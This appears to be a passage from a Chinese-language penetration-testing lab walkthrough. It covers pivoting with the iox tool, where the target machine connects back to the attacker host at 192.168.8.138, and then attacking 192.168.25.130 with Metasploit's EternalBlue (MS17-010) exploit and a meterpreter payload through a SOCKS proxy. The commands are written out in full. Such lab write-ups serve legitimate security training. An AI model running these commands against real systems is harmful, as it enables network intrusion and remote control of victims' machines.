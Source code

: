     ![](./img/18.png)
    上传 iox.exe 进行端口代理
    在攻击机上做转发,执行如下命令
    `./iox proxy -l 8888 -l 1080`
    在目标机上执行如下命令,与攻击机的 8888 端口对接起来建立链接
    `iox.exe proxy -r 192.168.8.138:8888`
    然后使用 msf 进行利用
    ```cmd
    msfconsole
    search ms17-010
    use exploit/windows/smb/ms17_010_eternalblue
    setg Proxies socks5:127.0.0.1:1080
    set rhosts 192.168.25.130
    set payload windows/x64/meterpreter/bind_tcp
    run
    ```
    ![](./img/19.png)